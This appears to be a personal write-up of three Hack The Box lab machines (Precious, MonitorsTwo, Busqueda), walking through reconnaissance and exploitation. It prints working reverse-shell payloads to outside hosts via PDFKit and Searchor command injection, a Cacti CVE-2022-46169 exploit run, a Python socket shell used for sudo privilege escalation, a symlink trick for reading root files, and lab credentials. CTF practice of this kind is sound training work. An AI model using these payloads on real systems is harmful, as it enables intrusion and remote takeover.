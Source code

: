 # HTB_Machines_Easy

## Precision
1. nmap -sC -sV 10.129.45.198

    - 22/tcp open ssh (OpenSSH 8.4p1 Debian 5+deb11u1)
        - ssh-hostkey = RSA/ECDSA/ED25519
    - 80/tcp open http (nginx/1.18.0)
        - http-title: Did not follow redirect to http://precious.htb/
        
   // we are able to connect remotely through SSH
   // look like a web app, which we can display through HTTP in a browser
   // Cant be reached by just IP address -> we need to configure redirect (DNS) at our local file /etc/hosts
   
   
2. sudo nano /etc/hosts -> 10.129.45.198   precious.htb

    - adding URL precious.htb as IP address of the host   
    
    
3. Web App analysis
    
    - user inserts some web page URL, by submitting the Web App converts the given URL into PDF file
    
    
    
4. Crafting "command injection in pdf"

    - https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795
    - lets edit it for our case
        - http://localhost/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.131/8000 0>&1"`'}
            - https://www.revshells.com/
                - nc -lvnp 8000
                - sh -i >& /dev/tcp/10.10.14.131/8000 0>&1
                    - IP address of VPN connection with HTB, not IP address of machine, we are willing to attack
                    - port 8000     
    
5. nc -lvnp 8000
    - listening all the communication at port number 8000
    

6. Launch Burpsuite+FoxyProxy


7. http://localhost/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.131/8000 0>&1"`'}
    - On the website precious.htb we enter the crafted command injection
    - in the terminal under nc -lvnp 8000 we can see, that we are successfuly connected to the webserver
    
    
8. Exploring the shell: ruby@precious:/var/www/pdfapp$
    - ls
    - cd ~/.bundle
    - ls
    - cat config
        - BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
            - credentials for SSH connection into targeted machine IP address
                - UN: henry
                - PW: Q3c1AqGHtoI0aXAYFH
                
                
9. SSH connection into targeted machine IP address
    - ssh henry@10.129.45.198       //IP address of the generated IP targeted machine
        - PW: Q3c1AqGHtoI0aXAYFH
    - ls
    - cat user.txt
        - USER FLAG: "XXXXX"
        

10. Hunting the root flag
    - ln -s /root/root.txt dependencies.yml
    - sudo /usr/bin/ruby /opt/update_dependencies.rb
        - Even we get an error, it is enough for us :-) root flag is involved in the error message
            - Traceback (most recent call last): /opt/update_dependencies.rb:20:in `<main>': undefined method `each' for "XXXXX":String (NoMethodError)
    - ROOT FLAG: "XXXXX"

## MonitorsTwo
1. Observe opened ports
    - `sudo nmap <ip>`
        - 22/tcp open ssh
        - 80/tcp open http
2. Observe website (http is open)
    - URL = 10.10.11.211
        -  login screen
        -  Cacti version 1.2.22
            -  search for the vulns
                -  CVE-2022-46169 (https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22)
3. Exploit the CVE-2022-46169 vuln
    - download the exploit script
        - `git clone https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22`
    - `nc -nlvp 443`
    - `python3 CVE-2022-46169.py  -u http://<ip> --LHOST=<local_IP> --LPORT=443`
        - LHOST can be obtained with `ifconfig` -> tun0 IP
    - explore the reverse shelled connection
        - `whoami` `ls -l /`
        - `ls -la /`
            - we can see the file ".dockerenv" -> we are inside Docker container
        - `cat entrypoint.sh`
            >mysql --host=db --user=root --password=root cacti -e "show tables"

        - `mysql --host=db --user=root --password=root cacti -e "show tables"`


## Busqueda
1. Reco
`sudo nmap -sVC 10.10.11.208`
    - sudo nano /etc/hosts
        - 10.10.11.208  searcher.htb
2. Weaponisation
App is running Searchor v2.4.0 which has vuln
![](https://hackmd.io/_uploads/S1qlltUqh.png)

3. Exploitation
- as a search value, insert RS inside it:
    - `nc -nlvp 4444`
    - `'),__import__('os').system('bash -c "bash -i >& /dev/tcp/<IP>/<port> 0>&1"')#`

4. User flag
    - cd
    - cat user.txt

5. Root flag
    
    ![](https://hackmd.io/_uploads/HkC_MK8qn.png)
    - UN: cody
    - PW: jh1usoih2bkjaspwe92 
- SSH connect
    - ssh svc@10.10.11.208
        - PW: jh1usoih2bkjaspwe92
    - we can edit the python script file
        - ![](https://hackmd.io/_uploads/SyKJVFIqn.png)
- PE
    - [exploit](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/)
        - `import socket,os,pty;s=socket.socket();s.connect(("<local-ip>",<port>));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")`
    - cd
        - `nano full-checkup.sh`
            - ![](https://hackmd.io/_uploads/HyyBHKLq3.png)

```
#!/usr/bin/python3
import socket,os,pty;s=socket.socket();s.connect(("10.10.14.12",1234));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
```
- `chmod +x full-checkup.sh`
    - LOCAL machine: `nc -nlvp <port>`
    - `sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup`

![](https://hackmd.io/_uploads/S13UdFU9h.png)



